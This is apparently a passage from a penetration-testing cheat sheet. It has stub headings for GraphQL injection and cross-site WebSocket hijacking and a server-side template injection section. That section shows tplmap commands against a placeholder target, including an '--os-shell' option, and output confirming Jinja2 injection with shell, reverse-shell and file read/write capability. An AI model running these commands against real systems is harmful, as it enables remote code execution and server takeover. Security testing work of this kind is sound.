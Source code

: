 #### GraphQL Injection

```powershell
#https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection
More on this soon :)

```

#### Server Side Template Injection (SSTI)

```powershell
#https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
More on this soon :)

My primary goto for exploiting SSTI issues is tplmap which is really just sqlmap for template injection vulnerabilities.

#https://github.com/epinna/tplmap

$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'

$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '$ {*} '

[+] Jinja2 plugin is testing rendering with tag '{ { * } }'
[+] Jinja2 plugin has confirmed injection with tag '{ { * } }'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

```

#### Cross-Site Web Socket Hijacking (CSWSH)
